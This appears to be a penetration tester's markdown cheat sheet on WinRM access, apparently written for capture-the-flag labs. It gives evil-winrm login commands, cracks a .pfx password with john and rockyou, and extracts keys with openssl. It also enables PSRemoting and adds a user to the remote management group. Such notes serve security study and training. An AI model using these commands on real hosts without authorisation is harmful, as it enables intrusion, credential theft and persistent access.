 # WinRM

usually this is a sign that you have to win-rm inside to exfiltrate stuff or enumerate further. You need creds so come back when you have them
- 5986 is SSL so to log in you need to enable the -S flag to evil-winrm
- sometimes you may get .pfx files in which you do the following for authentication

Use the evil-winrm tool to winrm in. Evil-winrm provides a lot of QoL with its upload and download function.

Though for some reason I could never get mimikatz to work in a evil-winrm shell so I usually use it to spawn a normal shell using msfvenom.

```bash
# usual syntax with creds

evil-winrm -i <target ip> -u user -p password


# if password protected

pfx2john <pfx file> > pfx.hash

john pfx.hash -w=rockyou.txt

# Need to convert the pfx file to get both the public cert and the private key

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem

# with the two above you can use it to login to winrm

evil-winrm -i 10.129.227.105 -c certificate.pem -k priv-key.pem -S -r <hostname>

```

- if you have admin rights or potato (SeImpersonate) powers, you can enable WinRM:

```powershell

# in an elevated powershell
Enable-PSRemoting -Force 

# add user to remote management users grop

net localgroup "remote management users" root /add

```
